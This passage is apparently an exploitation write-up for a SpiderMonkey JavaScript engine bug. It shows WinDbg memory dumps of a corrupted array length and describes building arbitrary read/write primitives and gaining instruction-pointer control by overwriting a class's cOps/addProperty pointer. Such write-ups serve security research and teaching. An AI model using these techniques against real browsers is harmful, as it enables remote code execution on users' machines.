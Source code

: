 ```
000001ee`7e701b40 0000000003030101 ---> Element pointer 

u32junk:
000001ee`7e701b60 000001ee7ef7af40 
000001ee`7e701b68 000001ee7efb1c18 
000001ee`7e701b70 0000000000000000 
000001ee`7e701b78 00007ff6a71ddac0 js!emptyElementsHeader+0x10
000001ee`7e701b80 fffe01ee7ef94080 
000001ee`7e701b88 fff88000000000ff ---> corrupted length!
000001ee`7e701b90 fff8800000000000 
000001ee`7e701b98 000001ee7f302080 ---> Element pointer


```

# Develop our arbitrary read/write primitive

Both Arbitrary Read Primitive and Arbitrary Write Primitive are achieved by corrupting element points of helper arrays.

# RIP Control

We will be achieving RIP Control by overwriting a JSFunction in the object. 

The class structure is a pointer that can be overwritten. We will copy a normal class structure then overwrite the cops pointer and finally overwrite AddProperty.

RIP Control can then be achieved by adding a property in the corrupted object. 

```
0:012> dt -b js::NativeObject 01a64a094100
   +0x000 group_           : js::GCPtr<js::ObjectGroup *>
      +0x000 value            : 0x000001a6`4a07ac70 	---> Deref this
   +0x008 shapeOrExpando_  : 0x000001a6`4a0997e8 
   +0x010 slots_           : (null) 
   +0x018 elements_        : 0x000001a6`4a094130 


000001a6`4a07ac70 00007ff6a71aed88 js!class_
000001a6`4a07ac78 000001a64a0a8040 
000001a6`4a07ac80 000001a649e2a800 

0:012> dt js!class_ 00007ff6a71aed88 
   +0x000 name             : 0x00007ff6`a729e154  "Array"
   +0x008 flags            : 0xc000002
   +0x010 cOps             : 0x00007ff6`a71aecf0 js::ClassOps
   +0x018 spec             : 0x00007ff6`a71aed48 js::ClassSpec

00007ff6`a71aed88 00007ff6a729e154 js!`string'
00007ff6`a71aed90 000000000c000002 
00007ff6`a71aed98 00007ff6a71aecf0 js!ArrayObjectClassOps
00007ff6`a71aeda0 00007ff6a71aed48 js!ArrayObjectClassSpec

0:012> dt js::ClassOps 07ff6`a71aecf0
   +0x000 addProperty      : 0x00007ff6`a68f73c0     bool  js!array_addProperty+0
   +0x008 delProperty      : (null) 
   +0x010 enumerate        : (null) 
   +0x018 newEnumerate     : (null) 


```
